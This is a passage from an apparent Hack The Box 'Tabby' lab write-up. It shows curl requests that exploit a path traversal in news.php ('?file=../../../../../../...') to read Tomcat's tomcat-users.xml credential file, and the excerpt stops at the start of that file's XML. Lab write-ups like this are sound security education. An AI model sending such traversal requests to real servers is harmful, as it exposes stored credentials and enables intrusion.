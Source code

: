 `tomcat-users.xml` is the file where ideally tomcat credentials are stored, so it's pretty obvious that the next file to read.

First we'll look into `etc/tomcat9/tomcat-users.xml` but unfortunately it doesn't return anything.

```shell
coldfx@Shockwave:~/htb/tabby$ curl http://megahosting.htb/news.php?file=../../../../../../etc/tomcat9/tomcat-users.xml
```

Possibly we are not looking in the right directory, so let's install tomcat9 on our machine with `apt install tomcat9` and search for `tomcat-users.xml` locally using `find`:

```shell
coldfx@Shockwave:~$ find / -name tomcat-users.xml 2>/dev/null
/etc/tomcat9/tomcat-users.xml
/usr/share/tomcat9/etc/tomcat-users.xml
```

It appears the file is also located inside `/usr/share/tomcat9/etc/tomcat-users.xml`, on checking the new path we got a result:

```xml
coldfx@Shockwave:~/htb/tabby$ curl http://megahosting.htb/news.php?file=../../../../../../usr/share/tomcat9/etc/tomcat-users.xml                                                                  
<?xml version="1.0" encoding="UTF-8"?>                                                                                                                                                         
<!--                                                                                                                                                                                           
  Licensed to the Apache Software Foundation (ASF) under one or more                                                                                                                           
  contributor license agreements.  See the NOTICE file distributed with                                                                                                                        
  this work for additional information regarding copyright ownership.                                                                                                                          
  The ASF licenses this file to You under the Apache License, Version 2.0                                                                                                                      
  (the "License"); you may not use this file except in compliance with                                                                                                                         
  the License.  You may obtain a copy of the License at                                                                                                                                        

      http://www.apache.org/licenses/LICENSE-2.0                                                                                                                                               

  Unless required by applicable law or agreed to in writing, software                                                                                                                          
  distributed under the License is distributed on an "AS IS" BASIS,                                                                                                                            
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.                                                                                                                     
  See the License for the specific language governing permissions and                                                                                                                          
  limitations under the License.                                                                                                                                                               
-->                                                                                                                                                                                            
<tomcat-users xmlns="http://tomcat.apache.org/xml"                                                                                                                                             
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"                                                                                                                            
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"                                                                                                               
              version="1.0">                                                                                                                                                                   
<!--                                                                                                                                                                                           
```